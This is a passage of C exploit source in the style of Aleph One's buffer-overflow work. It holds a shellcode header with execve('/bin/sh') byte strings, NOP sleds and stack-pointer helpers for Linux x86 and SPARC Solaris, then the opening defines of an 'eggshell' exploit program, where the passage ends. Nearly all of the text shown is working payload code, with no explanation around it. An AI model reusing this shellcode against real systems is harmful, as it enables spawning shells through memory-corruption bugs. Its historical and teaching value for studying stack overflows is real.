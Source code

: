 #define NOP_SIZE	1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE	4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#endif
------------------------------------------------------------------------------

eggshell.c
------------------------------------------------------------------------------
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include <stdlib.h>
#include <stdio.h>
#include "shellcode.h"

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
